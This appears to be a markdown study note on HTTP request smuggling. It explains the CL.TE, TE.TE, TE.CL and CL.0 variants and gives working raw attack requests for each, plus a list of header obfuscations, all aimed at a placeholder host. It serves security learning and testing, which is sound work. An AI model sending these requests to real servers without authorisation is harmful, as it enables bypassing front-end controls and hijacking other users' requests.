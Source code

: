 > From the PortSwigger very good article:\
> https://portswigger.net/web-security/request-smuggling/finding

## What is smuggling

To know when the body of POST request ends, servers can use **Content-Length** and **Transfer-Encoding** headers.

- **Content-Length** specifies the length of the message body in bytes
- **Transfer-Encoding (chunked)** waits to meet a 0 in the body

:warning: **Smuggling requests may occur when frontend (proxy, firewall) and backend servers do not use the same delimiter method.**

:information_source: Use HTTP/1.1 to exploit, because HTTP/2 is not vulnerable.\
:information_source: However, it is still possible to exploit if the frontend supports HTTP/2 but not the backend!

## CL.TE vulnerabilities
- **Frontend** uses **Content-Length**
- **Backend** uses **Transfer-Encoding**

```
POST /robots.txt HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

The next request should answer with a 404.

## TE.CL vulnerabilities
- **Frontend** uses **Transfer-Encoding**
- **Backend** uses **Content-Length**

:information_source: Deactivate *Update Content-Length* in Burp

```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

The next request should answer with a 404.

:information_source: The chunk size (here **5e**) is the length of the following chunk in hexadecimal (the chunk being the following request).

## TE.TE vulnerabilities
- Both use **Transfer-Encoding** but one of the servers can be induced not to process it by obfuscating the header in some way.

Ways to obfuscate the header:

```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```

## CL.0
- Front-end uses the **Content-Length** header and backend ignores it (treating it as having a value of 0 and treating the body as the next request).
- Transfer-Encoding header is useless as it is ignored by both frontend and backend servers.

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3

xyzGET / HTTP/1.1
Host: vulnerable-website.com
```

The next request should give a **405 Method Not Allowed** as the backend will process the request with **xyzGET** method. 
